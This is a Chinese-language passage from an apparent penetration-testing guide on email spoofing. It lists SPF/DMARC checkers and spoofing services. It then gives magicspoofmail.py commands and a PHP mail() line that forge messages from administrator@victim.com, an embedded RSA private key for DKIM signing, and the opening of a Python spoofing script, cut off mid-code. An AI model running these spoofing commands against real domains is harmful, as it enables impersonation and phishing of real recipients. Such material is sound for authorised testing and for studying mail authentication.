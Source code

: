 **工具**

* [**https://github.com/serain/mailspoof**](https://github.com/serain/mailspoof) **检查 SPF 和 DMARC 配置错误**
* [**https://pypi.org/project/checkdmarc/**](https://pypi.org/project/checkdmarc/) **自动获取 SPF 和 DMARC 配置**

**发送欺骗邮件**

* [**https://www.mailsploit.com/index**](https://www.mailsploit.com/index)
* [**http://www.anonymailer.net/**](http://www.anonymailer.net)
* [**https://emkei.cz/**](https://emkei.cz/)

**或者您可以使用工具：**

* [**https://github.com/magichk/magicspoofing**](https://github.com/magichk/magicspoofing)

```bash
# This will send a test email from test@victim.com to destination@gmail.com
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com
# But you can also modify more options of the email
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com --subject TEST --sender administrator@victim.com
```

如果在使用 dkim python lib 解析密钥时出现任何错误，请随时使用以下密钥。\
**注意**：这只是一个快速修复方法，在某些情况下，由于某种原因，openssl私钥**无法被 dkim 解析**，可以用此方法进行快速检查。

```
-----BEGIN RSA PRIVATE KEY-----
MIICXgIBAAKBgQDdkohAIWT6mXiHpfAHF8bv2vHTDboN2dl5pZKG5ZSHCYC5Z1bt
spr6chlrPUX71hfSkk8WxnJ1iC9Moa9sRzdjBrxPMjRDgP8p8AFdpugP5rJJXExO
pkZcdNPvCXGYNYD86Gpous6ubn6KhUWwDD1bw2UFu53nW/AK/EE4/jeraQIDAQAB
AoGAe31lrsht7TWH9aJISsu3torCaKyn23xlNuVO6xwdUb28Hpk327bFpXveKuS1
koxaLqQYrEriFBtYsU8T5Dc06FQAVLpUBOn+9PcKlxPBCLvUF+/KbfHF0q1QbeZR
fgr+E+fPxwVPxxk3i1AwCP4Cp1+bz2s58wZXlDBkWZ2YJwECQQD/f4bO2lnJz9Mq
1xsL3PqHlzIKh+W+yiGmQAELbgOdX4uCxMxjs5lwGSACMH2nUwXx+05RB8EM2m+j
ZBTeqxDxAkEA3gHyUtVenuTGClgYpiwefaTbGfYadh0z2KmiVcRqWzz3hDUEWxhc
GNtFT8wzLcmRHB4SQYUaS0Df9mpvwvdB+QJBALGv9Qci39L0j/15P7wOYMWvpwOf
422+kYxXcuKKDkWCTzoQt7yXCRzmvFYJdznJCZdymNLNu7q+p2lQjxsUiWECQQCI
Ms2FP91ywYs1oWJN39c84byBKtiFCdla3Ib48y0EmFyJQTVQ5ZrqrOrSz8W+G2Do
zRIKHCxLapt7w0SZabORAkEAxvm5pd2MNVqrqMJHbukHY1yBqwm5zVIYr75eiIDP
K9B7U1w0CJFUk6+4Qutr2ROqKtNOff9KuNRLAOiAzH3ZbQ==
-----END RSA PRIVATE KEY-----
```

**或者您可以手动执行：**

<pre class="language-php"><code class="lang-php"><strong># 这将发送一条未签名的消息
</strong><strong>mail("your_email@gmail.com", "测试主题！", "嘿！这是一个测试", "From: administrator@victim.com");
</strong></code></pre>

```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
```